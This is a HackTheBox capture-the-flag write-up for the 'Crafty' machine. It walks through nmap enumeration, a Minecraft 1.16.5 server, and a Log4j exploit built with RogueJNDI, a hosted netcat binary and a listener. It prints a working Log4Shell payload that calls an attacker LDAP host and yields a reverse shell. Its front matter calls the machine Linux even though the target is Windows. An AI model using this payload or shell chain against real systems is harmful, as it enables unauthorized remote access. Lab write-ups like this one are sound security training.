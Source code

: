 ```yaml
---
title: Crafty (HACKTHEBOX)
description: "This is a writeup for the machine Crafty from hackthebox, which is a Linux machine with difficulty easy." 
publishDate: "2025-04-24T07:2:10Z"
tags: ["HTB", "WindowsMachine", "easyMachine"]
---
```


# Enumeration

## Nmap

``nmap -sV -sC <targetIP>``

![alt text](HTBImage/crafty/nmap.png)

The results reveals that only two ports are open. 

## HTTP

Browsing to port 80, 

![alt text](HTBImage/crafty/page.png)

The website is promoting a Minecraft server and includes links to features like a store, forums, and a voting page — though they’re all marked as “coming soon.” Since there’s nothing more to explore on the website itself, our next step is to turn our attention to the Minecraft service.

## Exploiting Minecraft

From the Nmap results, we found that the Minecraft server is running version 1.16.5. Looking into potential vulnerabilities for this version points us toward the well-known Log4j exploit, which affected several versions of Minecraft’s server edition. The developers recommended updating the affected libraries to patch this issue.

To see if this vulnerability can be used in our case, we first need a compatible Minecraft client for version 1.16.5. Once we download and launch the client, we test the connection by attempting to log in using an empty password — this helps us check whether or not authentication is enforced on the server.

At the password prompt we press Enter and we connect to the target server.

![alt text](HTBImage/crafty/i.png)

## Foothold

Now that we're successfully connected to the Minecraft server, the next step in attempting exploitation is to set up a tool called RogueJNDI. To do this, we open a second terminal window and begin by cloning the RogueJNDI GitHub repository. After downloading the code, we compile the project to prepare it for use in our exploit attempt.

![alt text](HTBImage/crafty/github.png)

![alt text](HTBImage/crafty/build.png)

Once compiled, we need to grab a Netcat executable to execute on the target.

![alt text](HTBImage/crafty/downloadnetcat.png)

We host a Python web server on a third terminal to collect Netcat from.

![alt text](HTBImage/crafty/python.png)

Netcat listener in another terminal.

![alt text](HTBImage/crafty/netcat.png)

In **rogue-jndi** folder in the other terminal, we execute the following command to start malicious LDAP server.

![alt text](HTBImage/crafty/malicious-server.png)

In the first terminal, which we’re using to interact with the remote Minecraft server, we check the command-line interface (CLI) documentation and find that the /send command can be used to send messages to the server. Based on this, we build a custom message containing our payload. When this message is sent, it will trigger the exploit we’ve set up.

``/send ${jndi:ldap://10.10.16.29:1389/o=reference}``

Like this, example:

![alt text](HTBImage/crafty/exampl.png)

After sending the message containing the payload, we check our Netcat listener and see that we
have a shell on the system as svc_minecraft .

![alt text](HTBImage/crafty/exmp.png)

The user flag can be found at C:\Users\svc_minecraft\Desktop\user.txt.

# Learnings

- Minecraft Exploitation: Found vulnerable version (1.16.5) affected by Log4j.

- RogueJNDI: Cloned, built with Maven (mvn package), used for LDAP payloads.

- Python HTTP Server: Hosted Netcat executable.

- Netcat: Used to set up listener and capture reverse shell.

- Payload Delivery: Used /send ${jndi:...} to trigger exploit from Minecraft chat.

- Shell Access: Gained reverse shell as svc_minecraft.

# Reference

Pho3. (2025, January 17). Crafty walkthrough (Document No. D25.100.319) [PDF]. theblxckcicada
